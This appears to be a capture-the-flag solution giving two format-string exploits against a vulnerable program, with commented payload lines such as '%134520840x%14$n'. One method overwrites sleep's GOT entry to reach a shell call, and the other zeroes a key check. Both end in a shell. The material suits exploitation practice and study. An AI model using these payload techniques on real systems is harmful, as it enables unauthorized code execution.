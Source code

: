 Two methods

## Method 1 (faster): redirect code execution with GOT override:
# Step 1: override the 20th stack value to sleep's GOT entry with the 14th stack value which is pointing to the 20th
%134520840x%14$n
# Step 2: override the GOT entry with the address after the if check for the key (where the call to sh is)
%134514333x%20$n
# Step 3: re-override the 20th stack value to the address of buf[] because for some reason the 4th printf in the loop writes to the address in the 20th stack value, so we write buf[]'s adress because it is harmless to write junk there
%134513664x%14$n
# Step 4: send junk just to pass the 4th printf
a
# GAIN SHELL

## Method 2: override key's value with 0
# Step 1: override the 20th stack value to a pointer to the first 4 bytes of key with the 14th stack value which is pointing to the 20th
%134520928x%14$n
# Step 2: override the 21th stack value to a pointer to the second 4 bytes of key with the 15th stack value which is pointing to the 21th
%134520932x%15$n
# Step 3: override key with 0
%20$n%21$n
# Step 4: re-override the 20th stack value to the address of buf[] because for some reason the 4th printf in the loop writes to the address in the 20th stack value, so we write buf[]'s adress because it is harmless to write junk there
%134513664x%14$n
# GAIN SHELL

